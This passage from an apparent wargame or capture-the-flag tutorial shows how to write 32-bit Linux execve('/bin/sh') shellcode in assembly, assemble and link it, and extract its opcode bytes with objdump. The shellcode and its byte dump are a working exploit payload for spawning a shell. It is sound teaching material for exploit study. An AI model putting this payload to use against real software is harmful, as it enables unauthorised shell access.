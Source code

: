### Writing the Shellcode in Assembly

Now we are able to reproduce the code in Assembly. This is important: Stripe's machine were 32-bit, and the Assembly instructions are different from 64-bit (for instance,  check the 64-bit shellcode I showed [here](http://bt3gl.github.io/smashing-the-stack-for-fun-or-wargames-narnia-0-4.html)).

With an **l** added to the words, the above shellcode in 32-bit machines is:

```
.text
.globl _start

_start:
  xorl %eax, %eax     /* make eax equal to 0*/
  pushl %eax          /* pushes null*/
  pushl $0x68732f2f   /* push //sh */
  pushl $0x6e69622f   /* push /bin */
  movl  %esp, %ebx    /* store /bin/sh */
  pushl %eax          /* use null*/
  pushl %ebx          /* use /bin/sh*/
  movl  %esp, %ecx    /* wrutes array */
  xorl  %edx, %edx    /* xor to make edx equal to 0 */
  movb  $0xb, %al     /* execve system call #11  */
  int $0x80           /* make an interrupt */
```

To assemble and link this in a 32-bit machine we do:

```
$ as  -o shell.o   shell.s
$ ld -m -o shell shell.o
```

In a 64-but machine, we do:

1. Add **.code32** in the top of the Assembly code.
2. Assemble with the **--32 flag**.
3. Link with the **-m elf_i386** flag.

Resulting in:

```
$ as --32 -o shell.o   shell.s
$ ld -m elf_i386 -o shell shell.o
```

Now, the last step is to get the executable **shell** in hexadecimal so we have the instructions for the shellcode. We use **objdump**:

```
$ objdump -d shell
shell:     file format elf32-i386
Disassembly of section .text:
08048054 <_start>:
 8048054:	31 c0                	xor    %eax,%eax
 8048056:	50                   	push   %eax
 8048057:	68 2f 2f 73 68       	push   $0x68732f2f
 804805c:	68 2f 62 69 6e       	push   $0x6e69622f
 8048061:	89 e3                	mov    %esp,%ebx
 8048063:	50                   	push   %eax
 8048064:	53                   	push   %ebx
 8048065:	89 e1                	mov    %esp,%ecx
 8048067:	31 d2                	xor    %edx,%edx
 8048069:	b0 0b                	mov    $0xb,%al
 804806b:	cd 80                	int    $0x80
```
